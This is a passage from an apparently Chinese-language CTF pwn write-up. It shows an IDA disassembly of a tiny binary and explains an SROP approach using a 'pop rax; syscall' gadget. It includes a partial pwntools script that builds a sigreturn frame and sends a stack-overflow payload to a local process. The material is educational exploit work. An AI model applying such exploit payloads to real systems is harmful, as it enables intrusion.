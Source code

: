 ```assembly
.text:0000000000401021                 mov     edi, 0          ; fd
.text:0000000000401026                 lea     rsi, [rsp+40h+buf] ; buf
.text:000000000040102B                 mov     edx, 400h       ; count
.text:0000000000401030                 push    0
.text:0000000000401032                 pop     rax
.text:0000000000401033                 syscall                 ; LINUX - sys_read
.text:0000000000401035                 leave
.text:0000000000401036                 retn
.text:0000000000401036 sub_401000      endp
.text:0000000000401036
.text:0000000000401037
.text:0000000000401037 ; =============== S U B R O U T I N E =======================================
.text:0000000000401037
.text:0000000000401037 ; Attributes: noreturn
.text:0000000000401037
.text:0000000000401037                 public start
.text:0000000000401037 start           proc near               ; DATA XREF: LOAD:0000000000400018↑o
.text:0000000000401037                 call    sub_401000
.text:000000000040103C                 mov     eax, 3Ch ; '<'
.text:0000000000401041                 mov     edi, 0          ; error_code
.text:0000000000401046                 syscall                 ; LINUX - sys_exit
.text:0000000000401046 start           endp
.text:0000000000401046
.text:0000000000401046 _text           ends
.text:0000000000401046
.data:0000000000402000 ; ===========================================================================
```

​	没错,这就是整个text段...

​	观察一下,还是能发现一些可以利用的语句的.比如`pop rax;syscall;`,只要我们能让0xf位于栈顶,我们就可以进行SROP.

​	然后我在写代码的时候有点思维定势了,一直在想怎么栈迁移或者怎么泄露栈地址.然而这个函数在ret以后又不会让rsp跑到别的地方去,所以是完全把p64(0xf)直接塞到`st_add`的后面,然后执行`pop rax; syscall;`.

​	不过这样我们又面临另一个问题:我们没有现成的/bin/sh~~(要是实际生产环境中的程序员都那么好心就好了)~~ ~~(如果有一天程序员们真的变得这么好心,记得把自己的资产换成黄金一类的硬通货)~~.于是我们用类似栈迁移的思想:将我们需要的数据读到一块我们已知的地址中,再进行后续的操作.

​	于是我们编写脚本如下:

```python
from pwn import *
st_add=0x401032 #need 0xf in stack
leak_add=0x40101F
read_add=0x401021
#rw:0x402000~0x403000
bss_add=0x402B00
r=process("./pwn")
context.log_level = 'debug'
context.arch = 'amd64' #记得设置内核架构
gdb.attach(r)
pause()

exec_=SigreturnFrame() #pwntool自带的自动化构造frame结构体功能.
exec_.rbp=bss_add
exec_.rip=0x401033
exec_.rax=0x0
exec_.rdi=0
exec_.rsi=bss_add
exec_.rdx=0x400

payload1=b'a'*0x80+p64(bss_add)+p64(st_add)+p64(0xf)+bytes(exec_)
r.send(payload1)

```

[^*]: 说到素数,前几天我在写python实验作业,完成一个输出区间内所有素数的程序,上了埃氏筛没过.于是我换成线性筛,结果还是过不了.本来我都打算换c++打表来优化了,结果老师告诉我数据错了... 另外顺便一提,python的题目一般不会有时间复杂度限制
